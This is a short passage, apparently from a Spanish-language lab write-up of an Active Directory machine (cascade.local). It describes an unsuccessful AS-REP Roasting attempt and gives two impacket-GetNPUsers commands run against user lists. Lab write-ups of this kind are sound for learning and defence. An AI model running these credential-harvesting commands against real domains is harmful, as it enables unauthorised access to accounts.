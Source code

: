 <figure><img src="../../../.gitbook/assets/1239_vmware_6JzfSLAWdX.png" alt="" width="518"><figcaption></figcaption></figure>

### AS-REP Roasting Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una gran lista de usuarios válidos, procederemos a intentar efectuar un **AS-REP Roasting Attack** para intentar obtener un Ticket Granting Ticket (TGT), pero no obtenemos resultado.

{% code overflow="wrap" %}
```bash
impacket-GetNPUsers -no-pass -usersfile users.txt cascade.local/ 2>/dev/null

impacket-GetNPUsers -no-pass -usersfile valid_domain_users.txt cascade.local/ 2>/dev/null
```
{% endcode %}
